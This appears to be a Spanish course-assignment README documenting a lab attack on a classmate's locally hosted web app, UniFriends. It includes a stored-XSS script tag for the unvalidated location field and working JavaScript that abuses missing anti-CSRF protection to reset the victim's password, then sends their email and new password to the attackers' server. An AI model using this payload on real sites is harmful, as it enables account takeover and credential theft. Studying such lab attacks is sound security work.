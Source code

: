 # Ataque a sistema web
Ataque y documentación hecha por Diego Esteban y Francisco González. Ibai Mendivil no ha participado.

Nuestro repositorio: https://github.com/Calcoph/librerium/tree/ataque

Repositorio de la web atacada: https://github.com/julenh/SGSSI22/tree/Entrega_1

## Vulnerabilidad explotada
Para realizar el ataque a la página UniFriends hemos optado por agregar un script en el apartado de actividades. De los 5 campos que tiene una actividad, sólo 1 es vulnerable, ya que los demás o solo aceptan letras, o solo números, o escapan caracteres especiales. Seguramente esta validación sólo ocurre en javascript y nos la podríamos saltar, pero es más fácil atacar el campo 5, ya que no tiene ninguna validación.

Cabe destacar que el campo 5 tiene un bug, ya que si lo introducido en el campo es demasiado largo, no se nos avisa pero la página web no registra la actividad. Por este motivo en vez de meter todo el script en el campo, lo guardamos en nuestro servidor y simplemente ponemos un `href`. Por este mismo motivo el nombre del archivo es simplemente `a.js`.

El script introducido se ejecuta cada vez que alguien entra en ese apartado de la web. Una vez ejecutado, la contraseña del usuario es cambiada por otra totalmente diferente utilizando el mecanismo de uniFriends (y su falta de tokens anti-csrf) y se almacena en nuestra base de datos junto a su email.

## Ejecutar el ataque
1. Preparar el entrono (ver el README de nuestro repositorio en la rama `ataque`)
2. Entrar en la página web en localhost:81
3. Crear una cuenta
![pprincipal]
prueba con los siguientes valores:
    * nombre: minombre
    * apellido: miapellido
    * dni: 00000000-t
    * fecha: cualquier día
    * teléfono: 666666666
    * cuenta bancaria: 12345678901234567890
    * correo: ooooo@oooo.com
    * contraseña: micontrasenaA09!

![registro]
4. Iniciar sesión
![iniciarSesion.png]
5. Crear una actividad maliciosa
![actividad]
* Añadir un nombre cualquiera a la actividad (1)
* Añadir una descripción cualquiera (2)
* Añadir un número de personas cualquiera (3)
* Añadir una fecha aleatoria (4)
* Añadir el siguiente texto en el campo de lugar (5)
     * `<script src="http://localhost:82/a.js"></script>`
6. Cualquier persona que haya iniciado sesión entra al catálogo de actividades
7. Mirar en nuestra base de datos para ver si alguien ha caido en la trampa.
    * `http://localhost:8891`
    * `Usuario: Admin`
    * `Contraseña: Se encuentra en el fichero db_pass.txt`
8. Entrar en su cuenta con los credenciales que aparecen en la base de datos

## Explicación del código
```js
// Donde pone "introduce lugar del evento" hay que poner <script src="http://localhost:82/a.js"></script>
prom_correo = fetch('http://localhost:81/editarMiPerfil.php', {
    method: 'GET',
    headers: {
    },
})
.then(response => response.text())
.then(text => buscarCorreo(text))
function buscarCorreo(texto){
  var correo = '';
  var i = 636
  while (texto[i]!=' '){
    correo = correo +texto[i]
    i = i+1
  }
  return correo
}
alert("Contraseña cambiada!")
```

En estas líneas de código logramos obtener el nombre del usuario activo a través de la función asíncrona fetch() que recoge el cuerpo del texto de la url propocionada (http://localhost:81/editarMiPerfil.php). Con esta función sólo obtenemos el contenido de esta página, no se le va a mostrar al usuario. Ya que el correo electrónico del usuario se muestra en esta página. El correo se muestra a partir del carácter 636 y va seguido de un espacio en blanco. El "alert" está solo para ver si ha funcionado, en un ataque de verdad no estaría.

```js
// Solo dios sabe lo que hace esa regex, asi que en vez de
// averiguar lo que hace, vamos a generar una que creemos
// que funcionará y comprobarlo por si acaso
expr_contraseña = /^(?=.*[a-z])(?=.*[A-Z])(?=.*\d)(?=.*[$@$!%*?&.])[A-Za-z\d$@$!%*?&.]{8,}$/
final_contraseña = "aA99!!"
var contraseña = ""
while (!contraseña.match(expr_contraseña)) {
    contraseña = ""
    var characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
    var charactersLength = characters.length
    for ( var i = 0; i < 20; i++ ) {
        contraseña += characters.charAt(Math.floor(Math.random() * charactersLength))
    }
    
    contraseña = contraseña + final_contraseña
}

let httpreq = new XMLHttpRequest()
httpreq.open("POST", "cambioContrasena.php")
httpreq.setRequestHeader("Content-Type", "application/x-www-form-urlencoded; charset=UTF-8")
let data = `contrase%C3%B1a=${contraseña}`
httpreq.send(data)

prom_correo.then(correo => {
    window.location = `http://localhost:82/a.php?usuario=${correo}&contrasena=${contraseña}`
})

console.log(contraseña)
```
En esta parte del código generamos una nueva contraseña para el usuario que está siendo atacado. Dicha contraseña la enviamos mediante un HTTP POST a su base de datos utilizando su página de cambiar contraseña. Ya que no usan tokens anti-csrf, no necesitamos siquiera hacer un GET del form antes, basta con un POST. La contraseña la enviamos también a nuestra base de datos junto a su email. El "console.log" está solo para ver si ha funcionado, en un ataque de verdad no estaría.

a.php simplemente registra los parámetros en la base de datos. Intentamos hacer un POST como con cambioContrasena.php, pero al ser otra página web, firefox ponía trabas. Por eso lo cambiamos a que sea un GET y que a.php redirigese al index de uniFriends.

[registro]: imagenes/registro.png
[iniciarSesion.png]: imagenes/iniciarSesion.png
[actividad]: imagenes/actividad.png
[pprincipal]: imagenes/pprincipal.png
[Codigo1]: imagenes/c1.png
[Codigo2]:imagenes/c2.png

